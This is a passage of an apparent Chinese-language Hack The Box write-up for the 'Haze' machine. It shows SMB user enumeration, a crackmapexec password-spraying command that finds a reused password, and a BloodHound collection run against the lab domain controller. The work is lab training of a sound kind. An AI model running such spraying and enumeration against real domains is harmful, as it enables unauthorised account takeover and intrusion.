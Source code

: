 ```
SMB                      Haze.htb        445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB                      Haze.htb        445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
```

可以看到还有其他几个用户

```
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
```

尝试进行密码喷洒，确实存在密码复用的问题。

```
[root@kali] /home/kali/Haze  
❯ crackmapexec smb haze.htb -u usernames.txt -p 'Ld@p_Authxxxxxxxxxx'                                                                                                                                       ⏎
SMB         Haze.htb        445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         Haze.htb        445    DC01             [+] haze.htb\mark.adams:Ld@p_Authxxxxxxxxxx
```

## Bloodhound-1

```
[root@kali] /home/kali/Haze  
❯ bloodhound-python -u 'mark.adams' -p 'Ld@p_Authxxxxxxxxxx' -d haze.htb -dc dc01.haze.htb  -ns 10.10.xx.xx -c all  --zip 
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 8 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 50S
```

发现**mark**属于一个**GMSA**（Group Managed Service Accounts ）的管理员组
